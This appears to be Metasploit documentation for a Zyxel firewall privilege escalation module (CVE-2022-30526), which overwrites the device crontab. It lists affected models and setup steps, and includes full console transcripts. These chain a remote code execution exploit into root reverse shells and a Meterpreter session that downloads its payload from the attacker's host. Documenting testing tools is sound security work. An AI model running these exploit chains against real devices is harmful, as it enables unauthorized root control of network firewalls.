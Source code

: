 ## Vulnerable Application

### Description

This module exploits CVE-2022-30526, a local privilege escalation vulnerability that
allows a low privileged user (e.g. `nobody`) escalate to root. The issue stems from
a suid binary that allows all users to copy files as `root`. This module overwrites
the firewall's crontab to execute an attacker provided script, resulting in code
execution as `root`.

In order to use this module, the attacker must first establish shell access. For
example, by exploiting CVE-2022-30525.

Known affected Zyxel models are:

* USG FLEX 50, 50W, 100W, 200, 500, 700
* ATP 100, 200, 500, 700, 800
* VPN 50, 100, 300, 1000
* USG20-VPN and USG20W-VPN

### Setup

The vulnerable system is a hardware firewall/vpn that, to our knowledge,
cannot be emulated. As such, testing requires a physical device. Once the
device has been acquired, you'll need to accomplish the following:

* Once powered on, register the device with Zyxel. You cannot do anything
with the device until this is accomplished. Fortunately, the web interface
will force you to complete this process. You'll need to create an account at
https://portal.myzyxel.com and the firewall will need internet connectivity
to complete the process.

* Once the device is up to date, you'll need to downgrade the firmware. From
portal.myzyxel.com you can download old firmware from:

Devices Management -> Firmware Download

From there you can select model and version to download. The last vulnerable
version from the affected systems is 5.21 Patch 1.

* Once you are using the vulnerable version, there is no special configuration
you need to exploit from the LAN. If you want to exploit from the WAN, you'll
need to enable "HTTP" and/or "HTTPS" through the firewall. From the web interface
do:

Configuration -> Objects -> Service -> Service Group -> Default_Allow_WAN_To_ZyWALL

And move "HTTP" and/or "HTTPS" from the left column to the right. After applying
the firewall should pass HTTP/HTTPS through the firewall to the web interface.

* That's it. You are good to go.

## Verification Steps

* Follow setup steps above.
* Establish a shell on the device. See `exploit/linux/http/zyxel_ztp_rce`
* Do: `use exploit/linux/local/zyxel_suid_cp_lpe`
* Do: `check`
* Verify the remote host is exploitable
* Do: `set LHOST <ip>`
* Do: `run`
* Verify the module acquires a root shell

## Options

## Scenarios

### Successful escalation to root bash shell on USG Flex 100 using firmware 5.21

```
msf > use exploit/linux/http/zyxel_ztp_rce
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/http/zyxel_ztp_rce) > set RHOST 10.0.0.14
RHOST => 10.0.0.14
msf exploit(linux/http/zyxel_ztp_rce) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf exploit(linux/http/zyxel_ztp_rce) > run

[*] Started reverse TCP handler on 10.0.0.28:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This was determined by the model and build date: USG FLEX 100, 220315042158
[*] Executing Shell Dropper for cmd/unix/reverse_bash
[*] Sending command to /ztp/cgi-bin/handler
[*] Command shell session 1 opened (10.0.0.28:4444 -> 10.0.0.14:50827) at 2022-05-13 11:55:47 -0700
[+] Command successfully executed.

id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
cat /zyinit/fwversion
KERNEL_VERSION=3.10.87
FIRMWARE_VER=5.21(ABUH.1)521-r103462-k3
CAPWAP_VER=1.00.04
COMPATIBLE_PRODUCT_MODEL_0=E15D
COMPATIBLE_PRODUCT_MODEL_1=FFFF
COMPATIBLE_PRODUCT_MODEL_2=FFFF
COMPATIBLE_PRODUCT_MODEL_3=FFFF
COMPATIBLE_PRODUCT_MODEL_4=FFFF
MODEL_ID=USG FLEX 100
KERNEL_BUILD_DATE=2022-03-15 03:18:23
BUILD_DATE=2022-03-15 05:14:23
FSH_VER=1.0.0
^Z
Background session 1? [y/N]  y
msf exploit(linux/http/zyxel_ztp_rce) > use exploit/linux/local/zyxel_suid_cp_lpe
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/local/zyxel_suid_cp_lpe) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf exploit(linux/local/zyxel_suid_cp_lpe) > set session 1
session => 1
msf exploit(linux/local/zyxel_suid_cp_lpe) > run

[*] Started reverse TCP handler on 10.0.0.28:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. System version: USG FLEX 100, 5.21(ABUH.1)521-r103462-k3
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Overwriting /var/zyxel/crontab
[*] The payload may take up to 60 seconds to be executed by cron
[+] Deleted /tmp/bJUQqm
[*] Resetting crontab to the original version
[+] Deleted /tmp/IcNlzvnv5
[*] Command shell session 2 opened (10.0.0.28:4444 -> 10.0.0.14:50829) at 2022-05-13 11:57:08 -0700

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux usgflex100 3.10.87-rt80-Cavium-Octeon #2 SMP Tue Mar 15 05:14:51 CST 2022 mips64 Cavium Octeon III V0.2 FPU V0.0 ROUTER7000_REF (CN7020p1.2-1200-AAP) GNU/Linux
```

### Successful escalation to root Meterpreter on USG Flex 100 using firmware 5.21

```
msf > use exploit/linux/http/zyxel_ztp_rce
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/http/zyxel_ztp_rce) > set RHOST 10.0.0.14
RHOST => 10.0.0.14
msf exploit(linux/http/zyxel_ztp_rce) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf exploit(linux/http/zyxel_ztp_rce) > run

[*] Started reverse TCP handler on 10.0.0.28:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. This was determined by the model and build date: USG FLEX 100, 220315042158
[*] Executing Shell Dropper for cmd/unix/reverse_bash
[*] Sending command to /ztp/cgi-bin/handler
[*] Command shell session 1 opened (10.0.0.28:4444 -> 10.0.0.14:50827) at 2022-05-13 11:55:47 -0700
[+] Command successfully executed.

id
uid=99(nobody) gid=10003(shadowr) groups=99,10003(shadowr)
cat /zyinit/fwversion
KERNEL_VERSION=3.10.87
FIRMWARE_VER=5.21(ABUH.1)521-r103462-k3
CAPWAP_VER=1.00.04
COMPATIBLE_PRODUCT_MODEL_0=E15D
COMPATIBLE_PRODUCT_MODEL_1=FFFF
COMPATIBLE_PRODUCT_MODEL_2=FFFF
COMPATIBLE_PRODUCT_MODEL_3=FFFF
COMPATIBLE_PRODUCT_MODEL_4=FFFF
MODEL_ID=USG FLEX 100
KERNEL_BUILD_DATE=2022-03-15 03:18:23
BUILD_DATE=2022-03-15 05:14:23
FSH_VER=1.0.0
^Z
Background session 1? [y/N]  y
msf exploit(linux/http/zyxel_ztp_rce) > use exploit/linux/local/zyxel_suid_cp_lpe
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/local/zyxel_suid_cp_lpe) > set LHOST 10.0.0.28
LHOST => 10.0.0.28
msf exploit(linux/local/zyxel_suid_cp_lpe) > set session 1
session => 1
msf exploit(linux/local/zyxel_suid_cp_lpe) > set target 1
target => 1
msf exploit(linux/local/zyxel_suid_cp_lpe) > run

[*] Started reverse TCP handler on 10.0.0.28:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. System version: USG FLEX 100, 5.21(ABUH.1)521-r103462-k3
[*] Executing Linux Dropper for linux/mips64/meterpreter_reverse_tcp
[*] Using URL: http://10.0.0.28:8080/0g5aPNZ8DvT1n
[*] Overwriting /var/zyxel/crontab
[*] The payload may take up to 60 seconds to be executed by cron
[*] Client 10.0.0.14 (curl/7.70.0) requested /0g5aPNZ8DvT1n
[*] Sending payload to 10.0.0.14 (curl/7.70.0)
[+] Deleted /tmp/hdpBYBRk
[+] Deleted /tmp/OpTYd0c0
[*] Meterpreter session 3 opened (10.0.0.28:4444 -> 10.0.0.14:50832) at 2022-05-13 12:00:01 -0700
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Resetting crontab to the original version
[*] Server stopped.

meterpreter > shell
Process 29664 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux usgflex100 3.10.87-rt80-Cavium-Octeon #2 SMP Tue Mar 15 05:14:51 CST 2022 mips64 Cavium Octeon III V0.2 FPU V0.0 ROUTER7000_REF (CN7020p1.2-1200-AAP) GNU/Linux
```
